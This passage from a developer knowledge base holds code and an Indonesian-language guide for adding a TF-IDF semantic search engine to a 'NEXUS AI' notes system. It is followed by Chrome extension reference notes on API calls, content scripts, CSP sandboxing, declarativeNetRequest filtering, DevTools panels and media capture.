        "redis",
        "queue",
        "job",
        "optimize",
        "lazy",
        "eager",
        "n+1",
        "horizon",
        "chunk",
        "pagination",
        "compression",
        "cdn",
        "index",
        "performa",
      ],
      tdd: [
        "test",
        "pest",
        "phpunit",
        "assert",
        "mock",
        "factory",
        "feature",
        "unit",
        "dusk",
        "coverage",
        "tdd",
        "scaffold",
        "pengujian",
      ],
      vcs: [
        "git",
        "commit",
        "branch",
        "merge",
        "rebase",
        "worktree",
        "pull",
        "push",
        "conflict",
        "tag",
        "release",
        "gitflow",
      ],
      saas: [
        "tenant",
        "subscription",
        "billing",
        "stripe",
        "plan",
        "feature-flag",
        "multi-tenant",
        "invoice",
        "webhook",
        "payment",
        "saas",
      ],
      api: [
        "api",
        "rest",
        "endpoint",
        "resource",
        "sanctum",
        "throttle",
        "versioning",
        "response",
        "request",
        "webhook",
        "integration",
      ],
    };
  }

  /**
   * Build TF-IDF index dari semua file di knowledge HUB
   * Dipanggil sekali saat startup atau setelah distill
   */
  async buildIndex() {
    console.log("🔬 SemanticEngine: Building TF-IDF vector index...");

    this.tfidf = new natural.TfIdf(); // Reset
    this.fileIndex = [];

    const glob = require("glob");
    const files = glob.sync("**/*.{md,MD}", {
      cwd: this.knowledgePath,
      ignore: [
        "NEXUS_HUB_INDEX.md",
        "NEXUS_NEURAL_MAP.md",
        "NEXUS_SEMANTIC_INDEX.json",
      ],
      nodir: true,
    });

    for (const file of files) {
      const filePath = path.join(this.knowledgePath, file);
      try {
        const content = await fs.readFile(filePath, "utf8");
        const cleaned = this.cleanContent(content);

        this.tfidf.addDocument(cleaned);
        this.fileIndex.push({
          index: this.fileIndex.length,
          file: file,
          path: filePath,
          tags: this.extractMultiTags(content),
        });
      } catch (e) {
        // Skip file yang tidak bisa dibaca
      }
    }

    this.isBuilt = true;

    // Simpan index ke disk untuk reuse
    await this.saveIndex();

    console.log(
      `   ✅ Index built: ${this.fileIndex.length} knowledge nodes vectorized.`,
    );
    return this.fileIndex.length;
  }

  /**
   * Simpan index ke disk (cache)
   */
  async saveIndex() {
    const indexPath = path.join(
      this.knowledgePath,
      "..",
      "short_term",
      "vector_index.json",
    );
    await fs.ensureDir(path.dirname(indexPath));
    await fs.writeJson(
      indexPath,
      {
        built_at: Date.now(),
        file_count: this.fileIndex.length,
        index: this.fileIndex,
      },
      { spaces: 2 },
    );
  }

  /**
   * Load index dari cache kalau masih fresh (< 1 jam)
   */
  async loadIndex() {
    const indexPath = path.join(
      this.knowledgePath,
      "..",
      "short_term",
      "vector_index.json",
    );
    if (!(await fs.pathExists(indexPath))) return false;

    const cached = await fs.readJson(indexPath);
    const ageMs = Date.now() - cached.built_at;
    const ONE_HOUR = 3600000;

    if (ageMs < ONE_HOUR && cached.index.length > 0) {
      this.fileIndex = cached.index;
      this.isBuilt = true;
      console.log(
        `   ⚡ Vector index loaded from cache (${cached.file_count} nodes, ${Math.round(ageMs / 60000)}m old).`,
      );
      return true;
    }
    return false;
  }

  /**
   * Search knowledge dengan TF-IDF scoring + domain vocab boost
   * @param {string} query - Natural language query atau tag
   * @param {number} topK - Jumlah hasil teratas
   * @returns {Array} - Sorted results dengan score
   */
  async search(query, topK = 5) {
    if (!this.isBuilt) {
      const cached = await this.loadIndex();
      if (!cached) await this.buildIndex();
    }

    const results = [];
    const queryLower = query.toLowerCase();

    // TF-IDF scoring
    this.tfidf.tfidfs(query, (i, measure) => {
      if (measure > 0 && this.fileIndex[i]) {
        results.push({
          ...this.fileIndex[i],
          score: measure,
        });
      }
    });

    // Domain vocab boost — tambahkan score kalau query match domain keyword
    for (const result of results) {
      for (const [domain, keywords] of Object.entries(this.domainVocab)) {
        const domainMatch = keywords.some((kw) => queryLower.includes(kw));
        const fileMatch = result.tags.includes(domain);
        if (domainMatch && fileMatch) {
          result.score *= 1.5; // 50% boost untuk exact domain match
        }
      }
    }

    // Sort by score descending, ambil top K
    return results.sort((a, b) => b.score - a.score).slice(0, topK);
  }

  /**
   * Extract multi-label tags dari konten file
   * Lebih akurat dari identifyCategory() karena support multi-tag
   */
  extractMultiTags(content) {
    const lowerContent = content.toLowerCase();
    const tags = new Set();

    // 1. Cek existing NEXUS metadata tags dulu
    const metaMatch = content.match(/METADATA.*\[([^\]]+)\]/i);
    if (metaMatch) {
      metaMatch[1].split(",").forEach((t) => tags.add(t.trim().toLowerCase()));
    }

    // 2. Score setiap domain berdasarkan keyword frequency
    for (const [domain, keywords] of Object.entries(this.domainVocab)) {
      const hits = keywords.filter((kw) => lowerContent.includes(kw)).length;
      const threshold = Math.max(2, Math.floor(keywords.length * 0.15));
      if (hits >= threshold) {
        tags.add(domain);
      }
    }

    return Array.from(tags);
  }

  /**
   * Bersihkan markdown menjadi plain text untuk indexing
   */
  cleanContent(content) {
    return content
      .replace(/```[\s\S]*?```/g, "") // hapus code blocks
      .replace(/#{1,6}\s/g, "") // hapus heading markers
      .replace(/\[([^\]]+)\]\([^)]+\)/g, "$1") // hapus links, keep text
      .replace(/[*_`>]/g, "") // hapus markdown formatting
      .replace(/\n+/g, " ") // normalize newlines
      .trim();
  }

  /**
   * Invalidate cache — panggil setelah nexus distill
   */
  async invalidateCache() {
    const indexPath = path.join(
      this.knowledgePath,
      "..",
      "short_term",
      "vector_index.json",
    );
    if (await fs.pathExists(indexPath)) {
      await fs.remove(indexPath);
      this.isBuilt = false;
      console.log(
        "   🗑️  Vector index cache invalidated. Will rebuild on next search.",
      );
    }
  }
}

module.exports = SemanticEngine;
````

---

### STEP 2 — Update `NexusEngine.js`

Tambahkan import dan replace `searchKnowledge()`:

```javascript
// TAMBAHKAN di bagian import (baris atas NexusEngine.js)
const SemanticEngine = require('./SemanticEngine');

// TAMBAHKAN di constructor NexusEngine, setelah this.distiller = ...
this.semanticEngine = new SemanticEngine(this.knowledgePath);

// GANTI fungsi searchKnowledge() yang lama dengan ini:
async searchKnowledge(query, topK = 5) {
    // Coba vector search dulu
    try {
        const results = await this.semanticEngine.search(query, topK);
        if (results.length > 0) {
            this.log(
                `🔎 Vector Search [${query}]: Found ${results.length} relevant documents. ` +
                `Top: ${results[0].file} (score: ${results[0].score.toFixed(2)})`,
                'success'
            );
            return results.map(r => r.file);
        }
    } catch (e) {
        this.log(`⚠️ Vector search failed, falling back to tag index: ${e.message}`, 'warning');
    }

    // Fallback ke regex tag index (backward compatible)
    if (!this.memory.semanticIndex) await this.readMemory();
    const fallback = this.memory.semanticIndex[query.toLowerCase()] || [];
    return fallback;
}
```

---

### STEP 3 — Update `Distiller.js`

Replace `identifyCategory()` dengan versi yang pakai `SemanticEngine`:

```javascript
// TAMBAHKAN di bagian import Distiller.js
const SemanticEngine = require('./SemanticEngine');

// TAMBAHKAN di constructor Distiller
this.semanticEngine = new SemanticEngine(knowledgePath);

// GANTI identifyCategory() dengan ini:
identifyCategory(content) {
    // Gunakan SemanticEngine.extractMultiTags untuk multi-label
    const tags = this.semanticEngine.extractMultiTags(content);
    // Return primary tag (pertama) untuk backward compat dengan shelve()
    return tags.length > 0 ? tags[0] : 'other';
}

// TAMBAHKAN method baru setelah identifyCategory():
identifyCategories(content) {
    // Return semua tags (multi-label) — dipakai untuk semantic tagging
    return this.semanticEngine.extractMultiTags(content);
}

// UPDATE applySemanticTagging() — ganti identifyCategory() dengan identifyCategories():
async applySemanticTagging() {
    console.log('🏷️ Distiller: Applying Multi-Label Semantic Tagging (Vector-Enhanced)...');
    const files = this.getFiles();

    for (const file of files) {
        const filePath = path.join(this.knowledgePath, file);
        let content = await fs.readFile(filePath, 'utf8');

        // Gunakan multi-label detection
        const foundTags = this.identifyCategories(content);

        if (foundTags.length > 0) {
            const tagStr = `\n\n---\n> **METADATA (NEXUS SEMANTIC TAGS)**: [${foundTags.join(', ')}]\n`;
            if (!content.includes('METADATA (NEXUS SEMANTIC TAGS)')) {
                content += tagStr;
                await this.updateVersionHeader(filePath, content);
                console.log(`   ✅ Tagged: ${file} with [${foundTags.join(', ')}]`);
            }
        }
    }
}

// TAMBAHKAN di akhir method run(), setelah generateNeuralMap():
async run() {
    await this.distillAcademics();
    await this.standardizeNames();
    await this.applySemanticTagging();
    await this.shelve();
    await this.applySemanticLinking();
    await this.generateHubIndex();
    await this.generateNeuralMap();

    // BARU: Rebuild vector index setelah distillation selesai
    await this.semanticEngine.invalidateCache();
    await this.semanticEngine.buildIndex();
    console.log('🧠 Vector index rebuilt after distillation.');
}
```

---

## 🧪 Cara Test Implementasi

Setelah implementasi, test dengan command ini di root NEXUS AI:

```javascript
// Buat file test: test-vector.js
const SemanticEngine = require("./agent/core/SemanticEngine");
const path = require("path");

async function test() {
  const hubPath = path.join(__dirname, "memory", "distilled");
  const engine = new SemanticEngine(hubPath);

  await engine.buildIndex();

  // Test 1: Security query
  const r1 = await engine.search("authentication token security", 3);
  console.log('\n🔎 Query: "authentication token security"');
  r1.forEach((r) => console.log(`   ${r.score.toFixed(2)} — ${r.file}`));

  // Test 2: Database query
  const r2 = await engine.search("migration schema eloquent", 3);
  console.log('\n🔎 Query: "migration schema eloquent"');
  r2.forEach((r) => console.log(`   ${r.score.toFixed(2)} — ${r.file}`));

  // Test 3: Multi-domain query
  const r3 = await engine.search("livewire form validation security", 3);
  console.log('\n🔎 Query: "livewire form validation security"');
  r3.forEach((r) =>
    console.log(`   ${r.score.toFixed(2)} — ${r.file} [${r.tags.join(", ")}]`),
  );
}

test().catch(console.error);
```

```bash
node test-vector.js
```

---

## 📊 Expected Impact

| Metrik                       | Sebelum (v3.1) | Setelah (v3.2)          |
| :--------------------------- | :------------- | :---------------------- |
| Search accuracy (30 files)   | ~70%           | ~85%                    |
| Search accuracy (100+ files) | ~40%           | ~80%                    |
| Multi-label tagging          | ❌ Single only | ✅ Multi-label          |
| Search by natural language   | ❌             | ✅                      |
| RAM overhead                 | ~1MB           | ~15-50MB                |
| Index build time             | 0ms            | ~200-500ms (cached)     |
| Cache reuse                  | ❌             | ✅ 1 jam                |
| Rebuild trigger              | Manual         | ✅ Auto setelah distill |

---

## 🚀 Roadmap Lanjutan (Post v3.2)

Setelah vector search ini stabil dan 100 project selesai, tahap berikutnya:

**Phase 5 — Embedding Upgrade**

Kalau HUB sudah 500+ file, upgrade dari TF-IDF ke lightweight embedding model:

```bash
npm install @xenova/transformers
# Model: Xenova/all-MiniLM-L6-v2
# Size: ~25MB, RAM: ~200MB
# Accuracy: jauh lebih tinggi untuk semantic similarity
```

Ini tetap jalan lokal, tanpa cloud, dan masih aman di 8GB RAM.

---

## 🔗 File yang Dimodifikasi

| File                           | Perubahan                                                                                            |
| :----------------------------- | :--------------------------------------------------------------------------------------------------- |
| `agent/core/SemanticEngine.js` | **BARU** — TF-IDF vector engine                                                                      |
| `agent/core/NexusEngine.js`    | Import SemanticEngine, replace `searchKnowledge()`                                                   |
| `agent/core/Distiller.js`      | Import SemanticEngine, replace `identifyCategory()`, update `applySemanticTagging()`, update `run()` |

---

## ⚠️ Breaking Changes

**Tidak ada breaking changes.** Implementasi ini fully backward compatible:

- `searchKnowledge()` tetap return `string[]` (array of filenames)
- Fallback ke regex tag index kalau vector search gagal
- `identifyCategory()` tetap return single string untuk `shelve()` compatibility

---

> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, architecture, database, tdd, semantic-search, v3.2.0]  
> **NEXUS STANDARD**: [RECURSIVE_EVOLUTION_ARCHITECT.md](../other/NEXUS_RECURSIVE_EVOLUTION_ARCHITECT.MD)  
> _Generated by Nexus Senior AI Review | Status: READY_FOR_IMPLEMENTATION_

### 📘 KNOWLEDGE: NEXUS_API-CALLING.MD

# Calling External APIs from Extensions
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Permissions

Ordinarily, fetch requests made by extensions follow normal CORS rules.

To determine if this is sufficient, use `curl` to call the API with a test origin. For example:

```
curl -H "Origin: https://example.com" -I https://api.openweathermap.org/data/2.5/weather?q=London&appid=KEY`
```

If the response includes either `*` or `https://example.com` as the value for the `Access-Control-Allow-Origin` header, the API supports CORS.

If the API does not support CORS, request host permissions to bypass these restrictions:

```json
{
  "host_permissions": [
    "https://no-cors-api.example.com/*"
  ]
}
```

**Do NOT use `<all_urls>` just for API calls.** Scope to the specific API domains.

## Where to Make API Calls

API calls work from any extension context (service worker, popup, side panel, content scripts):

```js
// From popup or service worker
const response = await fetch('https://api.openweathermap.org/data/2.5/weather?q=London&appid=KEY');
const data = await response.json();
```

**Content scripts** can also make fetch calls, but they follow the web page's CORS rules.

## Error Handling Pattern

```js
async function callAPI(url) {
  try {
    const response = await fetch(url);
    if (!response.ok) {
      throw new Error(`HTTP ${response.status}: ${response.statusText}`);
    }
    return await response.json();
  } catch (err) {
    if (err instanceof TypeError) {
      // Network error (offline, DNS failure, etc.)
      console.error('Network error:', err.message);
    } else {
      console.error('API error:', err.message);
    }
    return null;
  }
}
```

## API Keys

- Never hardcode API keys in published extensions
- Use `chrome.storage.local` for user-provided keys
- For your own backend, use `chrome.identity` to authenticate instead of embedding keys
- Mark placeholder keys clearly: `const API_KEY = 'YOUR_API_KEY_HERE';`

## Service Worker Considerations

If making API calls from the service worker, remember it can terminate. For long-polling or
webhook-style patterns, use `chrome.offscreen` to create an offscreen document that stays alive,
or use `chrome.alarms` for periodic polling.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_CONTENT-SCRIPTS.MD

# Content Scripts & DOM Manipulation
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Two Ways to Inject

### 1. Static (manifest declaration)
```json
{
  "content_scripts": [{
    "matches": ["<all_urls>"],
    "js": ["content/content.js"],
    "css": ["content/content.css"],
    "run_at": "document_idle"
  }]
}
```

### 2. Programmatic (from service worker or popup)
```js
// Requires "scripting" permission and host access
chrome.scripting.executeScript({
  target: { tabId: tabId },
  files: ['content/content.js']
});

// Or inject a function directly
chrome.scripting.executeScript({
  target: { tabId: tabId },
  func: (param) => {
    document.body.style.backgroundColor = param;
  },
  args: ['yellow']
});
```

Use `activeTab` permission for on-click injection (no host_permissions needed):
```json
{
  "permissions": ["activeTab", "scripting"]
}
```

## Isolated World

Content scripts run in an isolated world:
- They share the DOM with the page but NOT JavaScript variables
- They can access chrome.runtime messaging APIs
- The page's CSP does NOT restrict content script code
- `window` refers to the content script's isolated world

## Message Passing from Content Scripts

```js
// content.js → service worker
chrome.runtime.sendMessage({ type: 'DATA', payload: data }, (response) => {
  console.log('Got response:', response);
});

// service worker → content script in a specific tab
chrome.tabs.sendMessage(tabId, { type: 'UPDATE', data: newData });

// content.js: listen for messages
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
  if (message.type === 'GET_CONTENT') {
    const text = document.body.innerText;
    sendResponse({ text });
  }
  return true; // Keep channel open for async sendResponse
});
```

## DOM Manipulation Best Practices

- **Avoid blocking the main thread** when modifying many DOM elements. Use `requestAnimationFrame`
  to batch visual updates and `scheduler.yield()` to break up long-running tasks:

```js
// ❌ BAD: Blocks the main thread while processing hundreds of elements
const emails = document.body.innerText.match(/[\w.+-]+@[\w-]+\.[\w.]+/g);
emails.forEach(email => {
  // ... find and highlight each email (can freeze the page)
});

// ✅ GOOD: Process in batches using requestAnimationFrame
async function highlightEmails(elements) {
  const BATCH_SIZE = 20;
  for (let i = 0; i < elements.length; i += BATCH_SIZE) {
    const batch = elements.slice(i, i + BATCH_SIZE);
    await new Promise(resolve => requestAnimationFrame(() => {
      batch.forEach(el => el.style.backgroundColor = 'yellow');
      resolve();
    }));
    // Yield to the main thread between batches
    if (typeof scheduler !== 'undefined' && scheduler.yield) {
      await scheduler.yield();
    }
  }
}
```

- Use `MutationObserver` for dynamic pages (SPAs, infinite scroll)
- Namespace your CSS classes to avoid conflicts (e.g., `myext-highlight`)
- Use Shadow DOM for complex UI injected into pages
- Clean up on removal: `chrome.runtime.onMessage` listeners persist until the content script context is destroyed
- Use `TreeWalker` or `document.createNodeIterator` instead of regex on `innerHTML` for finding text in the DOM — this is more reliable and doesn't break event listeners

## `run_at` Timing

| Value | When |
|-------|------|
| `document_start` | Before DOM is constructed (useful for blocking) |
| `document_idle` | After DOM is ready but before all resources load (default, recommended) |
| `document_end` | After DOM is complete but before images/subframes |


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_CSP-SANDBOX.MD

# CSP & Sandboxed Code Execution
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Extension CSP Restrictions

Chrome Extensions enforce a strict Content Security Policy that cannot be relaxed for extension
pages (popup, side panel, options, new tab, etc.).

Blocked by default:
- `eval()`, `new Function()`, `setTimeout("string")`
- Inline `<script>` tags
- Inline event handlers (`onclick="..."`, `onload="..."`, etc.)
- `javascript:` URLs

## HTML Best Practices

```html
<!-- ❌ BAD: Inline script -->
<script>
  document.getElementById('btn').onclick = () => alert('hi');
</script>

<!-- ❌ BAD: Inline event handler -->
<button onclick="doThing()">Click</button>

<!-- ✅ GOOD: External script file -->
<script src="popup.js"></script>
```

In `popup.js`:
```js
document.getElementById('btn').addEventListener('click', () => {
  // Handle click
});
```

## Executing User Code (Code Playground Pattern)

If you need to execute arbitrary code (e.g., a CodePen-like playground), you MUST use one of these
approaches. **Extension CSP completely blocks `eval()`, `new Function()`, and inline scripts in
normal extension pages.** There is no way around this — you need sandboxing.

### Option 1: Sandboxed Page in Manifest (Recommended)

Declare a sandboxed page in manifest.json. Sandboxed pages have a relaxed CSP that allows
`eval()` and inline scripts, but they cannot access chrome.* APIs.

```json
{
  "sandbox": {
    "pages": ["sandbox.html"]
  }
}
```

Use an iframe in your extension page to embed the sandbox:

```html
<!-- playground.html (extension page) -->
<iframe id="preview" src="sandbox.html"></iframe>
```

**CRITICAL:** Communication between the extension page and the sandboxed iframe MUST use
`postMessage`. You CANNOT access `iframe.contentDocument` or `iframe.contentWindow.document`
directly — this will throw:

```
SecurityError: Blocked a frame with origin "chrome-extension://..." from accessing a cross-origin frame.
```

Correct pattern:

```js
// playground.js — send code to sandbox
const iframe = document.getElementById('preview');
iframe.contentWindow.postMessage({
  html: htmlCode,
  css: cssCode,
  js: jsCode
}, '*');

// sandbox.js — receive and execute
window.addEventListener('message', (event) => {
  const { html, css, js } = event.data;
  // Clear previous content
  document.body.innerHTML = '';
  document.head.querySelectorAll('style.user-style').forEach(s => s.remove());

  // Apply HTML
  const container = document.createElement('div');
  container.innerHTML = html;
  document.body.appendChild(container);

  // Apply CSS
  const style = document.createElement('style');
  style.className = 'user-style';
  style.textContent = css;
  document.head.appendChild(style);

  // Execute JS (eval is allowed in sandbox!)
  try {
    eval(js);
  } catch (e) {
    const errEl = document.createElement('pre');
    errEl.style.color = 'red';
    errEl.textContent = e.message;
    document.body.appendChild(errEl);
  }
});
```

### Option 2: Blob URL in iframe

Create a self-contained HTML document via blob URL:

```js
function updatePreview(htmlCode, cssCode, jsCode) {
  const html = `
<!DOCTYPE html>
<html>
<head><style>${cssCode}</style></head>
<body>
  ${htmlCode}
  <script>${jsCode}<\/script>
</body>
</html>
`;
  const blob = new Blob([html], { type: 'text/html' });
  const url = URL.createObjectURL(blob);
  const iframe = document.getElementById('preview');
  // Revoke previous URL
  if (iframe.dataset.blobUrl) URL.revokeObjectURL(iframe.dataset.blobUrl);
  iframe.dataset.blobUrl = url;
  iframe.src = url;
}
```

### Option 3: srcdoc Attribute

```js
const iframe = document.getElementById('preview');
iframe.srcdoc = `
  <!DOCTYPE html>
  <style>${cssCode}</style>
  ${htmlCode}
  <script>${jsCode}<\/script>
`;
```

Both blob URLs and srcdoc create a separate origin, so they bypass the extension's CSP.
However, they also cannot access chrome.* APIs, and you cannot access their DOM directly
from the extension page (same cross-origin restriction as sandbox).

### What NOT to Do

```js
// ❌ WILL FAIL: Trying to set iframe content directly
iframe.contentDocument.open();
iframe.contentDocument.write(html);
iframe.contentDocument.close();

// ❌ WILL FAIL: Accessing cross-origin sandbox DOM
const doc = iframe.contentWindow.document;
doc.body.innerHTML = html;

// ❌ WILL FAIL: eval in a normal extension page
eval(userCode); // CSP blocks this
```

## CSP for Remote Resources

Extension pages cannot load remote scripts by default. If you need external libraries:

1. **Bundle them** — download and include in your extension
2. **Use chrome.scripting to inject into web pages** — web pages have their own CSP

For content scripts injected into web pages, the web page's CSP does NOT apply to the
content script's own code. Content scripts run in an isolated world.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_DECLARATIVE-NET-REQUEST.MD

# Declarative Net Request (Content Filtering)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Setup

```json
{
  "permissions": ["declarativeNetRequest"],
  "declarative_net_request": {
    "rule_resources": [{
      "id": "ruleset_1",
      "enabled": true,
      "path": "rules/rules.json"
    }]
  }
}
```

Add `"declarativeNetRequestFeedback"` permission to use `onRuleMatchedDebug` (dev only).

## Rule Format

`rules/rules.json`:
```json
[
  {
    "id": 1,
    "priority": 1,
    "action": { "type": "block" },
    "condition": {
      "urlFilter": "doubleclick.net",
      "resourceTypes": ["script", "image", "xmlhttprequest", "sub_frame"]
    }
  },
  {
    "id": 2,
    "priority": 1,
    "action": { "type": "block" },
    "condition": {
      "urlFilter": "google-analytics.com",
      "resourceTypes": ["script", "xmlhttprequest"]
    }
  }
]
```

### Rule Fields

- `id`: Unique integer per rule
- `priority`: Higher priority rules win conflicts
- `action.type`: `"block"`, `"redirect"`, `"allow"`, `"modifyHeaders"`, `"allowAllRequests"`, `"upgradeScheme"`
- `condition.urlFilter`: Pattern matching (supports `*`, `||`, `|`, `^`)
- `condition.resourceTypes`: Array of resource types to match

### URL Filter Patterns

| Pattern | Matches |
|---------|---------|
| `"doubleclick.net"` | Any URL containing "doubleclick.net" |
| `"||doubleclick.net"` | Domain starts with doubleclick.net |
| `"||example.com/ads/*"` | Specific path pattern |
| `*://*.tracking.com/*` | Subdomain matching |

### Resource Types

`main_frame`, `sub_frame`, `stylesheet`, `script`, `image`, `font`, `object`, `xmlhttprequest`,
`ping`, `csp_report`, `media`, `websocket`, `webtransport`, `webbundle`, `other`

## Dynamic Rules (runtime)

```js
// Add rules at runtime
await chrome.declarativeNetRequest.updateDynamicRules({
  addRules: [{
    id: 1000,
    priority: 1,
    action: { type: 'block' },
    condition: { urlFilter: 'ads.example.com' }
  }],
  removeRuleIds: [] // IDs to remove
});
```

## Tracking Blocked Requests

`onRuleMatchedDebug` only works in dev (unpacked) and requires `declarativeNetRequestFeedback`:

```js
chrome.declarativeNetRequest.onRuleMatchedDebug.addListener((info) => {
  // info.request, info.rule
});
```

For production, count via `webRequest` (observe only) or maintain counts with `webNavigation`:

```js
// Alternative: Use webRequest to observe (requires host_permissions)
chrome.webRequest.onBeforeRequest.addListener(
  (details) => {
    // Count requests to known tracking domains
    if (isTrackerDomain(new URL(details.url).hostname)) {
      incrementBlockCount(details.tabId);
    }
  },
  { urls: ["<all_urls>"] }
);
```

## Limits

- Static rules: 30,000 guaranteed per extension, plus an additional 300,000 from a pool shared between extensions
- Dynamic rules: 30,000
- Session rules: 5,000


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_DEPRIORITIZE-BACKGROUND-FETCHES.MD

# Deprioritize background fetches
> **VERSION**: v1 | **Last Updated**: 26/05/2026


When a page performs multiple simultaneous network requests, they often compete for the same bandwidth. Non-critical data such as analytics, logging, or background synchronization should be deprioritized so that user-initiated or critical data fetches can complete more quickly.

## How to implement

1. **Identify background requests**: Determine which `fetch()` calls are for non-essential data that doesn't impact the immediate user experience.
2. **Apply fetch priority**: Add the `priority: 'low'` option to the `fetch()` initialization object.

## Example code

```javascript
// Use high priority (default) for critical UI updates
const criticalData = await fetch('/api/data');

// Explicitly deprioritize background analytics
fetch('/api/analytics', {
  method: 'POST',
  body: JSON.stringify(eventData),
  // Lower the priority to prevent network contention
  priority: 'low'
});
```

## Best practices

- **DO** use `priority: 'low'` for analytics, beacons, or telemetry data that isn't required for the current view.
- **DO** use `priority: 'low'` for "prefetching" data that the user *might* need later, ensuring it doesn't slow down what they need *now*.
- **DO NOT** use `priority: 'low'` for fetches that are critical to the user experience.
- **DO NOT** use the deprecated `importance` key in the fetch options object. The correct key is `priority`.

## Fallback strategy

Baseline status for Fetch priority: Newly available. It's been Baseline since 2024-10-29.
Supported by: Chrome 103 (Jun 2022), Edge 103 (Jun 2022), Firefox 132 (Oct 2024), and Safari 17.2 (Dec 2023).

The `priority` option in the Fetch API is a progressive enhancement. Browsers that do not support it will ignore the option and treat the request with default priority. No explicit feature detection or fallback logic is required for basic usage.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_DEVTOOLS.MD

# DevTools Panels
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Setup

```json
{
  "devtools_page": "devtools/devtools.html"
}
```

The devtools page runs ONLY when DevTools is open. It's invisible — its job is to create panels.

## Creating a Panel

`devtools/devtools.html`:
```html
<!DOCTYPE html>
<html>
<body>
  <script src="devtools.js"></script>
</body>
</html>
```

`devtools/devtools.js`:
```js
chrome.devtools.panels.create(
  'My Panel',                    // Title shown in DevTools tab
  'icons/icon-16.png',           // Icon (optional, can be empty string)
  'devtools/panel/panel.html',   // Panel content page — RELATIVE TO EXTENSION ROOT
  (panel) => {
    // panel.onShown.addListener((window) => { ... });
    // panel.onHidden.addListener(() => { ... });
  }
);
```

**CRITICAL: The panel path is relative to the extension root**, NOT relative to the devtools.js
file. This is the most common DevTools extension bug.

```js
// ❌ WRONG — resolves to <ext-root>/panel/panel.html (file not found)
chrome.devtools.panels.create("My Panel", "", "panel/panel.html");

// ✅ CORRECT — resolves to <ext-root>/devtools/panel/panel.html
chrome.devtools.panels.create("My Panel", "", "devtools/panel/panel.html");
```

## Panel Content

`devtools/panel/panel.html` is a regular extension page with full chrome.* API access.

## Accessing DevTools APIs

Only available in the devtools page and panels:

```js
// Get inspected window's tab ID
const tabId = chrome.devtools.inspectedWindow.tabId;

// Evaluate JS in the inspected page
chrome.devtools.inspectedWindow.eval('document.title', (result, isException) => {
  console.log('Page title:', result);
});

// Monitor network requests
chrome.devtools.network.onRequestFinished.addListener((request) => {
  // request.request.url, request.response.status, etc.
  // HAR entry format
});

// Get all captured requests
chrome.devtools.network.getHAR((harLog) => {
  harLog.entries.forEach((entry) => { /* process */ });
});
```

## Communication Architecture

DevTools pages/panels CANNOT directly talk to the service worker via `chrome.runtime.sendMessage`
in all cases. Use a connection pattern:

```js
// In panel JS — connect to service worker
const port = chrome.runtime.connect({ name: 'devtools-panel' });
port.postMessage({ type: 'INIT', tabId: chrome.devtools.inspectedWindow.tabId });
port.onMessage.addListener((msg) => { /* handle */ });

// In service worker
chrome.runtime.onConnect.addListener((port) => {
  if (port.name === 'devtools-panel') {
    port.onMessage.addListener((msg) => { /* handle */ });
  }
});
```

## Important Notes

- DevTools pages exist per-DevTools-window (one per inspected tab)
- They are destroyed when DevTools closes
- `chrome.devtools.*` APIs are ONLY available in the devtools page context, not in the service worker
- Panels can inject scripts into the inspected page via `chrome.devtools.inspectedWindow.eval()`


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_MEDIA-CAPTURE.MD

# Media Capture (Tab & Desktop)
> **VERSION**: v2 | **Last Updated**: 26/05/2026


## Choosing the Right API

| Need | API |
|------|-----|
| Record the active tab's audio/video | `chrome.tabCapture.getMediaStreamId()` |
| Let the user choose a screen, window, or tab | `chrome.desktopCapture.chooseDesktopMedia()` |

Prefer `tabCapture` when you only need the current tab — it requires no user chooser dialog and
no `"tabs"` permission. Use `desktopCapture` only when the user must select what to capture.

## Tab Capture

### Permissions

```json
{ "permissions": ["tabCapture"] }
```

### Pattern

`chrome.tabCapture.getMediaStreamId()` runs in the **service worker** and returns a stream ID.
The actual `getUserMedia()` call must happen in an **offscreen document** (the SW cannot access
media streams directly).

```js
// service-worker.js
chrome.action.onClicked.addListener(async (tab) => {
  const streamId = await chrome.tabCapture.getMediaStreamId({ targetTabId: tab.id });
  // Pass the ID to the offscreen document to call getUserMedia
  await chrome.runtime.sendMessage({ type: 'START_CAPTURE', streamId });
});

// offscreen.js
chrome.runtime.onMessage.addListener((msg) => {
  if (msg.type !== 'START_CAPTURE') return;
  (async () => {
    const stream = await navigator.mediaDevices.getUserMedia({
      audio: { mandatory: { chromeMediaSource: 'tab', chromeMediaSourceId: msg.streamId } },
      video: { mandatory: { chromeMediaSource: 'tab', chromeMediaSourceId: msg.streamId } }
    });
    const recorder = new MediaRecorder(stream, { mimeType: 'video/webm' });
    // ... handle recorder events
  })();
});
```

## Desktop Capture

### Permissions

```json
{ "permissions": ["tabs", "desktopCapture"] }
```

`"tabs"` is **required** — `chooseDesktopMedia` needs a `targetTab` with its `url` field
populated, which requires the `"tabs"` permission.

### Pattern

```js
// service-worker.js
chrome.action.onClicked.addListener(async (tab) => {
  // ❌ BROKEN — no targetTab
  // chrome.desktopCapture.chooseDesktopMedia(['screen', 'window'], cb);

  // ✅ CORRECT — pass the active tab
  chrome.desktopCapture.chooseDesktopMedia(['screen', 'window', 'tab'], tab, (streamId) => {
    if (!streamId) return; // User cancelled
    // Send streamId to offscreen document for getUserMedia
    chrome.runtime.sendMessage({ type: 'START_DESKTOP_CAPTURE', streamId });
  });
});
```

## State Locking — Prevent Double-Start Errors

Both APIs fail if called while a previous capture is still active:
- `tabCapture`: `"Cannot capture a tab with an active stream"`
- `desktopCapture`: opens a second chooser dialog on top of the first

Use a state machine stored in `chrome.storage.session` (survives service worker restarts,
cleared on browser close):

```js
// State: 'idle' → 'starting' → 'recording' → 'stopping' → 'idle'
chrome.action.onClicked.addListener(async (tab) => {
  const { recordingState = 'idle' } = await chrome.storage.session.get('recordingState');
